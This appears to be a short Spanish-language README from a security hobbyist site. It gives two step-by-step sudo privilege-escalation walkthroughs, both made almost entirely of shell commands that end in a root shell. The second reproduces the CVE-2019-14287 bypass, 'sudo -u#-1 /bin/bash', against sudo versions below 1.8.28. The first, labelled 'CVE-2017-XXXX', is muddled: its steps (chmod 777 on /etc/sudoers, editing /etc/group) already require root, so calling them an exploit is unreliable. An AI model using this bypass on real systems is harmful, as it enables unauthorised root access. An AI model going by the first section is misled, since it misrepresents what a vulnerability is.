 # sudo

# CVE-2017-XXXX hackingyseguridad

#1.- Para editar el fichero sudoers sin problemas 

$chmod 777 /etc/sudoers    

#2.- Añadidmos en la linea sudo de /etc/group a antonio

sudo vim /etc/group

sudo:x : 27:antonio

forzamos la escritura en group al salir con :wq!

#3.- Restablecemos los privilegios del fichero sudoers con 

$chmod 755 /etc/sudoers

#4.- Explotamos 

$sudo antonio

$sudo su

#whoami

#5.- ya somos root!


# CVE-2019-14287 VULNERABILIDAD SUDO VERSIONES < 1.8.28 

#0.- Comprovamos la version de sudo instalada con: 

$sudo -V

#1.- Editamos el fichero /etc/sudoers con $sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

%admin ALL=(ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#3.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#4.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo

#5.- Modificamos la linea

antonio ALL=(ALL, !root) ALL

#6.- Explotamos la vulnerabilidad con sudo -u#-1

$sudo -u#-1 /bin/bash

#whoami

#7.- ya somos root!
